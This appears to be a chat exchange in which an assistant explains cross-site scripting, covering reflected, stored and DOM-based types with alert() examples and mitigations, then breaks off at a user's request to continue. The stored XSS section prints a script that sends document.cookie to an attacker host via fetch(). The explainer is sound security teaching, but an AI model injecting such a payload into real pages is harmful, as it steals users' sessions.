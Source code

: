 

# Introduction to Cross-Site Scripting (XSS)

Cross-Site Scripting (XSS) is a common web security vulnerability that allows attackers to inject malicious scripts into web pages viewed by other users. These attacks occur when an application includes untrusted data without proper validation or escaping.

## Key Concepts

1. **How XSS Works**:
   - Attacker injects malicious JavaScript code into a vulnerable website
   - Victim's browser executes the code in the context of the trusted site
   - Attacker can steal cookies, session tokens, or perform actions on behalf of the user

2. **Types of XSS**:
   - **Stored/Persistent XSS**: Malicious script is permanently stored on the target server
   - **Reflected XSS**: Malicious script is reflected off a web server in response
   - **DOM-based XSS**: Vulnerability exists in client-side code rather than server-side code

3. **Common Attack Vectors**:
   ```html
   <script>alert('XSS')</script>
   ```
   ```html
   <img src="x" onerror="alert('XSS')">
   ```
   ```javascript
   javascript:alert('XSS')
   ```

## Prevention Techniques

- Input validation and output encoding
- Implementing Content Security Policy (CSP)
- Using secure frameworks that auto-escape content
- Setting HttpOnly flag on cookies

Understanding XSS is fundamental for both developers (to prevent vulnerabilities) and security professionals (to test for them).

Further Explain the types of XSS extensively

 # **Introduction to Cross-Site Scripting (XSS) - Types Explained Extensively**

Cross-Site Scripting (XSS) is a security vulnerability that allows attackers to inject malicious scripts into web pages viewed by other users. These scripts execute in the victim's browser, potentially stealing sensitive data, hijacking sessions, or defacing websites.

XSS attacks are categorized into three main types:

1. **Reflected XSS**  
2. **Stored XSS**  
3. **DOM-based XSS**  

Each type has distinct characteristics and exploitation methods.

---

## **1. Reflected XSS (Non-Persistent)**
Reflected XSS occurs when malicious input from a user is immediately returned by the web application in an unsafe manner, typically in an error message, search result, or URL parameter.

### **How It Works:**
- The attacker crafts a malicious URL containing JavaScript.
- The victim clicks the link (e.g., via phishing).
- The server reflects the script back in the response.
- The victim's browser executes the script.

### **Example:**
```http
https://example.com/search?query=<script>alert('XSS')</script>
```
If the website displays `query` without sanitization, the script runs.

### **Impact:**
- Session hijacking via `document.cookie`.
- Redirecting users to malicious sites (`window.location`).
- Phishing attacks by modifying page content.

### **Mitigation:**
- Input validation & output encoding.
- Using Content Security Policy (CSP).
- Escaping user-supplied data before rendering.

---

## **2. Stored XSS (Persistent)**
Stored XSS occurs when malicious scripts are permanently stored on a target server (e.g., in a database, comment section, or forum post) and later executed when other users access the infected page.

### **How It Works:**
- Attacker submits malicious input stored on the server.
- Victim requests a page containing this stored data.
- Server serves the malicious script to the victim’s browser.
- Script executes in their context.

### **Example:**
A blog comment with:
```html
<script>fetch('https://attacker.com/steal?cookie='+document.cookie)</script>
```
When another user loads the page, their cookies are sent to the attacker.

### **Impact:**
- Long-term compromise of user accounts.
- Spread of malware

Continue from Stored XSS(persistent)
